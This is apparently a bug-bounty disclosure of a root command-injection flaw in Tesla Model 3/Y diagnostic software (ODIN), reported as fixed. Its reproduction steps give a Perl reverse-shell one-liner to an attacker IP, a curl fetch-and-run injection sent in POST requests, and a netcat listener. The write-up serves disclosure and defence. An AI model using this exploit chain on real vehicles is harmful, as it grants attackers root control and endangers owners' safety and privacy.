

# Root Shell via ODIN Digital Mics Test

**CVE:** [CVE-2022-42008](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-42008)
**CWE:** CWE-78 (OS Command Injection)
**Submitted:** September 4, 2021
**Affected:** Tesla Model 3/Y (Intel MCU), likely Model S/X
**Kernel:** Linux ice 4.14.235-PLK #1 SMP PREEMPT (x86_64)
**Firmware:** 2021.24.4 (100% success rate)
**Status:** Fixed in firmware 2021.32.10
**Reward:** Bugcrowd bounty (SW-343214)

## Testing Environment

| Field | Value |
|-------|-------|
| Vehicle | Tesla Model 3 |
| MCU | Intel Atom (x86_64) |
| Kernel | 4.14.235-PLK |
| Firmware | 2021.24.4 |
| Access | RJ45 ethernet port or driver footwell diagnostic port |
| Network | Local WiFi (attacker and car on same network) |
| Date | September 2021 |

## Description

An improper access control vulnerability in Tesla's On-Board Diagnostic Interface (ODIN) allows an attacker to obtain a root shell on the Model 3/Y car computer. The vulnerability exists in the `TEST_DIGITAL-MICS_X_FUNCTIONAL-CHECK` ODIN task, which can be executed using the lowest principal level (`tbx-external`) — available to anyone willing to purchase a Toolbox subscription in the USA or EU.

There are two variants of this task: one which takes 6 input parameters, and another which accepts 7. The vulnerability is present in the 7-parameter variant. The additional parameter, `MicTest-Input`, accepts a list of strings:

```json
"MicTest-Input": {
    "datatype": "List",
    "default": [
        "-u",
        "factory-audio:factory-audio:audio:hermes",
        "/usr/bin/factory-audio-test/mic_test"
    ]
}
```

When executed, this ODIN task internally calls another ODIN task — `CID_EXEC` — which directly executes the list of input strings on the command line using the **root** account.

## Steps for Reproduction

### 1. Prepare a reverse shell script

Create a script (`shell.sh`) to open a backshell to the attacker's machine:

```bash
perl -e 'use Socket;$i="192.168.37.167";$p=1719;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

### 2. Serve the script

Connect the Tesla to the same WiFi network as the attacker machine, then serve the script via HTTP:

```bash
python3 -m http.server 80 --cgi
```

### 3. Download the script to the car

Connect to the MCU via the RJ45 ethernet port or the driver's footwell diagnostic port. Using a valid Toolbox token, initiate a POST request to `http://192.168.90.100:8080/api/v1/products/current/commands`:

```json
{
    "message_type": "command",
    "args": {
        "kw": {
            "MicTest-Input": [
                "curl",
                "http://192.168.37.142/shell.sh",
                "-o",
                "/home/tesla/shell.sh"
            ]
        },
        "name": "Model3/tasks/TEST_DIGITAL-MICS_X_FUNCTIONAL-CHECK"
    },
    "command": "execute",
    "tbxtoken": "${TBX_TOKEN}",
    "token": "${ODIN_TOKEN}",
    "tokenv2": {
        "token": "${ODIN_TOKEN_V2}",
        "intermediate_certificate": "${INTERMEDIATE_CERT}"
    }
}
```

### 4. Set up a listener

```bash
nc -l 1719
```

### 5. Execute the script

Send another POST request with the shell execution command:

```json
{
    "message_type": "command",
    "args": {
        "kw": {
            "MicTest-Input": ["/bin/sh", "/home/tesla/shell.sh"]
        },
        "name": "Model3/tasks/TEST_DIGITAL-MICS_X_FUNCTIONAL-CHECK"
    },
    "command": "execute",
    "tbxtoken": "${TBX_TOKEN}",
    "token": "${ODIN_TOKEN}",
    "tokenv2": {
        "token": "${ODIN_TOKEN_V2}",
        "intermediate_certificate": "${INTERMEDIATE_CERT}"
    }
}
```

A moment after the request is received by the car, the netcat listener receives a connection, opening a root shell:



## Impact

The attacker gains full root access on the MCU, with the ability to perform any operation without authorization. The only prerequisites are:

- A `tbx-external` Toolbox subscription (purchasable by anyone in the USA or EU)
- Physical connection to the car via RJ45 ethernet or footwell diagnostic port
- The car connected to the same WiFi network as the attacker

## Recommendations

- Remove the `MicTest-Input` parameter from the `TEST_DIGITAL-MICS_X_FUNCTIONAL-CHECK` task, or restrict the `CID_EXEC` subtask to a whitelist of approved commands.
- Require a higher principal level than `tbx-external` for tasks that invoke `CID_EXEC`.
- Implement input validation on ODIN task parameters to prevent command injection.

---

**Researchers:** Matthew C. Pilsbury, Alex Harbuzenko, Oleg Kutkov
Research conducted at SourceHat Labs Inc.
